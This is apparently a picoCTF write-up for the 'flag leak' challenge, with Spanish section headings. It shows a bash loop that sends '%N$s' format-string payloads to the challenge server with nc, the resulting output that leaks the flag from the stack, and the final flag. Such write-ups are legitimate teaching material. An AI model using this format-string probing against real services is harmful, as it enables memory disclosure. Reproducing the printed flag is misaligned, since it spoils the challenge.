 # flag leak
## Descripcion
I'm just copying and pasting with this [program](https://artifacts.picoctf.net/c/93/vuln). What can go wrong? You can view source [here](https://artifacts.picoctf.net/c/93/vuln.c). And connect with it using:`nc saturn.picoctf.net 52454`
## Pistas
- Format Strings
## Solucion
``
```
┌──(kali㉿kali)-[~]
└─$ for i in {0..999}; do echo "%$i\$s" | nc saturn.picoctf.net 52454; done
Tell me a story and then I'll tell you one >> Here's a story - 
%0$s
Tell me a story and then I'll tell you one >> Here's a story - 
%1$s
++++++
++++++
++++++
Tell me a story and then I'll tell you one >> Here's a story - 
��e�

Tell me a story and then I'll tell you one >> Here's a story - 
setresgid
Tell me a story and then I'll tell you one >> Here's a story - 

Tell me a story and then I'll tell you one >> Here's a story - 
CTF{L34k1ng_Fl4g_0ff_St4ck_5e16d521}



```


## Bandera
picoCTF{L34k1ng_Fl4g_0ff_St4ck_5e16d521}

## Notas adicionales

## Referencias

